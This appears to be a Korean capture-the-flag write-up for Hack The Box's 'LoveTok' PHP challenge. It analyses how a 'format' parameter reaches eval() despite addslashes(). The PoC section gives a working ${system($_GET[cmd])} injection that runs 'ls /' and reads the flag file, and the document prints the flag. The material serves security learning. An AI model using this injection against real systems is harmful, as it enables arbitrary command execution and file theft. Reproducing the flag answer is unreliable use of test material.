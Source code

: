 # LoveTok
![PHP](https://img.shields.io/badge/php-%23777BB4.svg?style=for-the-badge&logo=php&logoColor=white)

![image](https://github.com/user-attachments/assets/c3383a6f-c64e-45a4-9c7d-5d9b76c48717)
- 사이트 접속시 위와 같은 창이 뜨고, ```Nah, ...``` 부분 클릭시 ```You'll find love: ```뒤 문자열이 바뀐다.
- 또한 파라미터 ```format```이라는 매개에 ```r```이라는 값이 들어가는 것을 확인

## Source Code Analysis
```
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
- 주어진 소스코드를 분석하다보면 파라미터 ```format```이 ```./controllers/TimeController.php```에서 사용된다는 것을 알 수 있다.
- 또한 파라미터의값을 ```TimeModel``` 클래스로 넘긴다.

```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);
        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
- ```TimeModel``` 코드를 확인해보면 파라미터의 값을 ```eval()```함수로 실행시킨다.

## PoC
```
${system($_GET[cmd])}&cmd=ls /
```
- 위 명령어를 실행시켜 상위 디렉토리에 존재하는 파일의 내용을 읽고

```
${system($_GET[cmd])}&cmd=cat /flagxwHjt
```
- flag 획득 ```HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}```
